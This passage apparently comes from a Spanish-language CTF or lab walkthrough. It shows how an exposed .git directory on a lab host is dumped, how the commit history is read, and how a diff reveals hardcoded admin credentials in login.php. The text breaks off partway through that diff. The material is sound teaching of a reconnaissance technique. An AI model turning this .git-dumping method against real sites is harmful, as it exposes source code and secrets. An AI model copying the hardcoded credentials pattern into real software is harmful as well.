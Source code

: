 ```bash
[-] Fetching http://10.11.12.12/.git/refs/heads/ [200]
[-] Fetching http://10.11.12.12/.git/refs/tags/ [200]
[-] Fetching http://10.11.12.12/.git/refs/heads/master [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 14 paths from the index

❯ git log
commit 0f1d821f48a9cf662f285457a5ce9af6b9feb2c4 (HEAD -> master)
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:14:32 2021 +0300

    i changed login.php file for more secure

commit a4d900a8d85e8938d3601f3cef113ee293028e10
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:06:20 2021 +0300

    I added login.php file with default credentials

commit aa2a5f3aa15bb402f2b90a07d86af57436d64917
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:02:44 2021 +0300

    First Initialize
```

Existe un commit `a4d900a8d85e8938d3601f3cef113ee293028e10` en el cual agregaron al `login.php` las credenciales por default, procedemos a ver los cambios con `git show id_commit`.

```bash
❯ git show a4d900a8d85e8938d3601f3cef113ee293028e10
commit a4d900a8d85e8938d3601f3cef113ee293028e10
Author: Jehad Alqurashi <anmar-v7@hotmail.com>
Date:   Mon Aug 30 13:06:20 2021 +0300

    I added login.php file with default credentials

diff --git a/login.php b/login.php
index e69de29..8a0ff67 100644
--- a/login.php
+++ b/login.php
@@ -0,0 +1,42 @@
+<?php
+session_start();
+require 'config/config.php';
+if($_SERVER['REQUEST_METHOD'] == 'POST'){
+    if($_POST['email'] == "lush@admin.com" && $_POST['password'] == "321"){
+        $_SESSION['userid'] = 1;
+        header("location:dashboard.php");
+        die();
+    }
+
+}
+?>
+
+<link rel="stylesheet" href="style/login.css">
+<head>
+    <script src="https://kit.fontawesome.com/fe909495a1.js" crossorigin="anonymous"></script>
+    <link rel="stylesheet" href="Project_1.css">
+    <title>Home</title>
+</head>
+
+<body>
```